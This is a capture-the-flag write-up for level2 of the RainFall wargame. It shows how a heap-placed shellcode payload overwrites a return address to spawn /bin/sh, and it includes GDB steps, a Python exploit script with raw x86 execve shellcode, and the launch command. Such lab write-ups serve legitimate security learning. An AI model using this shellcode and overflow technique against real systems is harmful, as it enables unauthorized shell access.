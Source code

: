 LEVEL_2:
# 📚 Exploiting `level2` – Exploit the overflow to get a shell.
this is a heap overflow, we execute shellcode from the heap using strdup().

Exploit Strategy:</br>

Inject shellcode into local_50 buffer:
  - strdup(local_50) copies this shellcode to heap at a predictable address (found via GDB).
  - Overflow RET to point to the heap address returned by strdup().
  - When p() returns → EIP = heap → shellcode executes → /bin/sh spawns.

Why This Works?</br>

NX disabled → heap is executable(Check only blocks stack addresses, not heap).</br>
ASLR (Address Space Layout Randomization) is disabled.
```sh
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
ASLR off → heap address is stable (e.g., 0x0804a008).
strdup() gives us a writable+executable space for shellcode.

Find heap address after strdup() using GDB:
```
break *0x0804853d
run < <(python exploit.py)
info registers
```
Craft payload:

Shellcode: 25-byte Linux x86 execve("/bin/sh").

Padding to 76 bytes.</br>
Overwrite EBP (4 bytes).</br>
Overwrite RET with heap address.
```
from struct import pack
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)
heap_addr = 0x0804a008
payload  = shellcode
payload += "A" * (76 - len(shellcode))
payload += "B" * 4
payload += pack("<I", heap_addr)
print(payload)
```

> (python exploit.py; cat) | ./level2
